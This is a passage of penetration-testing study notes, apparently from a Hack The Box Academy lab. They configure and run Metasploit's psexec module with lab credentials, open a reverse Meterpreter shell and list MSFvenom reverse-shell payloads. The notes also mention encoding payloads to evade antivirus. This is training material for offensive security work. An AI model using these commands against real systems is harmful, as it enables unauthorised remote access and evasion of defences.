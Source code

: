 We will want to use the `set` command to configure the following settings as such :

```shell
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

```shell
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter > 
```

Like other command language interpreters (Bash, PowerShell, ksh, etc...), Meterpreter shell sessions allow us to issue a set of commands we can use to interact with the target system. We can use the `?` to see a list of commands we can use. We will notice limitations with the Meterpreter shell, so it is good to attempt to use the `shell` command to drop into a system-level shell if we need to work with the complete set of system commands native to our target.

## Crafting Payloads with MSFvenom :

We must be mindful that using automated attacks in Metasploit requires us to reach a vulnerable target machine over the network. Consider what we did in the last section. To `run the exploit module`, `deliver the payload`, and `establish the shell session`, we needed to communicate with the system in the first place.

In addition to providing a payload with flexible delivery options, MSFvenom also allows us to `encrypt` & `encode` payloads to bypass common anti-virus detection signatures. Let's practice a bit with these concepts.

In Pwnbox or any host with MSFvenom installed, we can issue the command `msfvenom -l payloads` to list all the available payloads.

```shell
NolanCarougeHTB@htb[/htb]$ msfvenom -l payloads

Framework Payloads (592 total) [--payload <value>]
==================================================

    Name                                                Description
    ----                                                -----------
linux/x86/shell/reverse_nonx_tcp                    Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell/reverse_tcp_uuid                    Spawn a command shell (staged). Connect back to the attacker
```